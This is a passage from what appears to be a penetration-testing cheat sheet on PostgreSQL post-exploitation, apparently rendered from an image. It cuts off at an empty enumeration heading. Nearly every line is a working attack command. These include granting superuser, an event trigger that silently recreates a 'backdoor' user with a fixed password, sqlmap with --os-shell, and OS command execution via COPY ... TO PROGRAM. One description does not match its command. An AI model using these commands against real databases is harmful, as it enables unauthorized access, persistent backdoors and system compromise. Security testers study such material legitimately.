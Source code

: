     ```bash
    ALTER USER postgres WITH SUPERUSER;
    ```
* **Description:** Modify an existing user account password for persistent access.

### Trigger-Based Persistence

*   **Tool:** \[\[PSQL]]

    ```bash
    CREATE OR REPLACE FUNCTION backdoor_trigger() RETURNS event_trigger AS $$
    BEGIN
      EXECUTE 'CREATE USER backdoor WITH PASSWORD ''backdoor''';
    END;
    $$ LANGUAGE plpgsql;

    CREATE EVENT TRIGGER my_trigger ON ddl_command_end EXECUTE FUNCTION backdoor_trigger();

    ```
* **Description:** Uses a trigger to automatically recreate a backdoor user whenever a DDL command is executed.

#### Privilege Escalation via SQL Injection

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=postgresql --os-shell
    ```
* **Description:** Uses SQL injection to gain access to the underlying operating system, leading to privilege escalation.

#### Abusing Database Extensions

* **Tool:** \[\[PSQL]]

```bash
CREATE EXTENSION adminpack;
```

* **Description:** Enable database extensions that might allow for file system access or other privileged operations.

#### Postgres Shell

*   **Tool:** \[\[PSQL]]

    ```bash
    COPY (SELECT '') TO PROGRAM 'whoami';
    ```
* **Description:** If access to the database is gained, the attacker can execute shell commands via PostgreSQL’s `COPY` command.

### Internal Reconnaissance

#### Database Enumeration
